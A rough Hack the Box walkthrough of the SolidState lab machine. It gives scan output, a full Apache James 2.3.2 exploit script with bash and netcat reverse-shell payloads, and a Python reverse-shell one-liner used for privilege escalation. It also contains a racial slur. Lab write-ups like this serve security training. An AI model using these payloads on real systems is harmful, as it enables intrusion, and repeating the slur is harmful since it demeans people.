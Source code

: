 ```yaml
---
title: SolidState - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/SolidState.png
---
```

---
title: SolidState - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/SolidState.png
---
---
title: 2024-10-12-SolidState - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-SolidState.png
---
#linux #manual 
### Scan
```
└─# nmap -sC -sV --open -p- 10.10.10.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 11:54 EDT
Nmap scan report for 10.10.10.51
Host is up (0.14s latency).
Not shown: 64818 closed tcp ports (reset), 712 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.3 [10.10.14.3])
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=9/11%Time=66E1BD82%P=aarch64-unknown-linux
SF:-gnu%r(GenericLines,7C,"JAMES Remote Administration Tool 2\
SF:.3\.2
Please enter your login and password
Login id
SF::
Password:
Login failed for 
Login id:
");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.20 seconds

```
### Enumeration
petential RCE from edb


tryna enum from port 4555![Image](/assets/Screenshot 2024-09-11 at 12.56.11 PM.png)
![Image](/assets/Screenshot 2024-09-11 at 12.55.44 PM.png)

set up python script and listener (dont forget to wrap like i did :P)

```
import socket
import sys
import time
 
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
 
if len(sys.argv) != 4:
    sys.stderr.write("[-]Usage: python3 %s <remote ip> <local ip> <local listener port>
" % sys.argv[0])
    sys.stderr.write("[-]Example: python3 %s 172.16.1.66 172.16.1.139 443
" % sys.argv[0])
    sys.stderr.write("[-]Note: The default payload is a basic bash reverse shell - check script for details and other options.
")
    sys.exit(1)
 
remote_ip = sys.argv[1]
local_ip = sys.argv[2]
port = sys.argv[3]
 
# Select payload prior to running script - default is a reverse shell executed upon any user logging in (i.e. via SSH)
payload = '/bin/bash -i >& /dev/tcp/' + local_ip + '/' + port + ' 0>&1' # basic bash reverse shell exploit executes after user login
#payload = 'nc -e /bin/sh ' + local_ip + ' ' + port # basic netcat reverse shell
#payload = 'echo $USER && cat /etc/passwd && ping -c 4 ' + local_ip # test remote command execution capabilities and connectivity
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # proof of concept exploit on root user login only
 
print ("[+]Payload Selected (see script for more options): ", payload)
if '/bin/bash' in payload:
    print ("[+]Example netcat listener syntax to use after successful execution: nc -lvnp", port)
 
 
def recv(s):
        s.recv(1024)
        time.sleep(0.2)
 
try:
    print ("[+]Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,4555)) # Assumes James Remote Administration Tool is running on Port 4555, change if necessary.
    s.recv(1024)
    s.send((user + "
").encode('utf-8'))
    s.recv(1024)
    s.send((pwd + "
").encode('utf-8'))
    s.recv(1024)
    print ("[+]Creating user...")
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit
".encode('utf-8'))
    s.recv(1024)
    s.send("quit
".encode('utf-8'))
    s.close()
 
    print ("[+]Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,25)) # Assumes default SMTP port, change if necessary.
    s.send("ehlo team@team.pl
".encode('utf-8'))
    recv(s)
    print ("[+]Sending payload...")
    s.send("mail from: <'@team.pl>
".encode('utf-8'))
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>
".encode('utf-8')) if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>
".encode('utf-8'))
    recv(s)
    s.send("data
".encode('utf-8'))
    recv(s)
    s.send("From: team@team.pl
".encode('utf-8'))
    s.send("
".encode('utf-8'))
    s.send("'
".encode('utf-8'))
    s.send((payload + "
").encode('utf-8'))
    s.send("
.
".encode('utf-8'))
    recv(s)
    s.send("quit
".encode('utf-8'))
    recv(s)
    s.close()
    print ("[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).")
    if '/bin/bash' in payload:
        print ("[+]Don't forget to start a listener on port", port, "before logging in!")
except:
    print ("Connection failed.")
```

netcat into box and change passwords of all users to `password`
![Image](/assets/Screenshot 2024-09-11 at 1.38.31 PM.png)

Now, we need to telnet into the mail server via pop3 on port 110. ![Image](/assets/Screenshot 2024-09-11 at 1.39.52 PM.png) 

`USER mindy` then type '`PASS password`'

we can poke around these user's emails using `LIST` and `RETR`
ssh creds ![Image](/assets/Screenshot 2024-09-11 at 1.41.52 PM.png)

Once we log in, our script from earlier triggers our listener!
![Image](/assets/Screenshot 2024-09-11 at 1.43.23 PM.png)

![Image](/assets/Screenshot 2024-09-11 at 1.44.01 PM.png)
`USER:c2a02b6aac5efe90cc11717f43994eaa`

serve linpeas 

serve linenum
both didnt work



talk about opt and other common to check like /srv/ and /dev/

![Image](/assets/Screenshot 2024-09-11 at 2.07.06 PM.png)

we see py script with read and write all perms

pspy

python reverse shell one liner 
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.3',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > tmp.py
```

wait a few mins with wrapped listener

![Image](/assets/Screenshot 2024-09-11 at 2.15.11 PM.png)

boom niga

`ROOT:08bae8a910f1847604ff24468d51688c`





### Initial Access

### Privilege Escalation
